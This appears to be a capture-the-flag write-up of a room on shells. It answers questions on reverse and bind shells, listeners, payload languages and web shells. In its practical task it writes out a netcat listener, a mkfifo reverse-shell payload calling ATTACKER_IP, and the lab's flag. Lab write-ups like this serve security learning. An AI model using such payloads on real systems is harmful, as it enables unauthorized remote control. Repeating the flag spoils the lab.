

**Task 2 - Shell Overview**

*Q1: What is the command-line interface that allows users to interact with an operating system?*

A: The command-line interface that allows users to interact with an operating system is called a **shell**. A shell is a very powerful tool. Use it wisely.

*Q2: What process involves using a compromised system as a launching pad to attack other machines in the network?*

A: Depending on an attacker's intentions, a compromised machine can just be a launching pad to attack other machines, and make them compromised. The initial machine may not even be the prime target. This process is known as **pivoting**

*Q3: What is a common activity attackers perform after obtaining shell access to escalate their privileges?*

A: An attack will commonly perform the process called **Privilege Escalation**. A shell can act as the mediator for bad actors. Be careful!

**Task 3 - Reverse Shell**

*Q1: What type of shell allows an attacker to execute commands remotely after the target connects back?*

A: A **Reverse Shell** allows for an attacker to execute commands remotely after the target connects back to them. This is commonly exploited.

*Q2: What tool is commonly used to set up a listener for a reverse shell?*

A: **Netcat** is a very common tool that is used to set up listeners. Listeners will listen on a given port for activity (traffic) on said port. 

**Task 4 - Bind Shell**

*Q1: What type of shell opens a specific port on the target for incoming connections from the attacker?*

A: A **Bind Shell** opens a specific port on the target machine, allowing for incoming connections from an attacker or bad actor.

*Q2: Listening below which port number requires root access or privileged permissions?*

A: Port **1024** and below are the most common ports, and are reserved for specific protocols. Most of these ports require root access.

**Task 5 - Shell Listeners**

*Q1: Which flexible networking tool allows you to create a socket connection between two data sources?*

A: **Socat** is a utility that allows you to create a socket connection between two data sources. 

*Q2: Which command-line utility provides readline-style editing and command history for programs that lack it, enhancing the interaction with a shell listener?*

A: **Rlwrap**, is a small utility that uses the GNU readline library and provides editing keyboard and history.

*Q3: What is the improved version of Netcat distributed with the Nmap project that offers additional features like SSL support for listening to encrypted shells?*

A: **Ncat** is the improved version of Netcat that makes the aforementioned improvements to the already incredibly useful tool.

**Task 6 - Shell Payloads**

*Q1: Which Python module is commonly used for managing shell commands and establishing reverse shell connections in security assessments?*

A: **Subprocess** is the name of the Python module most commonly used to spawn a shell and set it up as a Python reverse shell. It exports environment variables.

*Q2: What shell payload method in a common scripting language uses the **exec, shell_exec, system, passthru, and popen** functions to execute commands remotely through a TCP connection?*

A: **PHP** is the common scripting language used in the previously mentioned commands, and can be remotely executed through a TCP connection.

*Q3: What scripting language can use a reverse shell by exporting environment variables and creating a socket connection?*

A: **Python** is an incredibly powerful scripting and programming language that can use a reverse shell by exporting variables and creating a socket connection.

**Task 7 - Web Shell**

*Q1: What vulnerability type allows for attackers to upload a malicious script by failing to restrict file types?*

A: An **Unrestricted File Upload** is a very dangerous vulnerability that allows for an attack to upload a malicious script or file due to network misconfiguration.

*Q2: What is a malicious script uploaded to a vulnerable web application to gain unauthorized access?*

A: A **Web Shell** is a malicious script uploaded to a vulnerable web application. A reverse shell is then established, and unauthorized access can be achieved.

**Task 8 - Practical Task**

*Q1: Using a reverse or bind shell, exploit the command injection vulnerability to get a shell. What is the content of the flag saved in the / directory?*

A: There were a few issues with this, but I will walk through it step-by-step. Firstly, we need to set up communication between the boxes. This can be done at the website of the target box on port 8080. Click on the first practical task. Once done, let's set up a listener. This can be done via the following command:
*nc -lvnp 8081*.

We are doing port 8081, because the task said that is the vulnerable port for command injection.
Now that netcat is listening over port 8081, let's go back to the target box, and input this string into the field provided: 
*rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f*

Replace the ATTACKER_IP and ATTACKER_PORT with the respective IP and port. Afterwards, it should look something like this:

Once done, we can traverse directories, and can find our flag! 
THM{0f28b3e1b00becf15d01a1151baf10fd713bc625} is our answer.

**Thanks for reading!**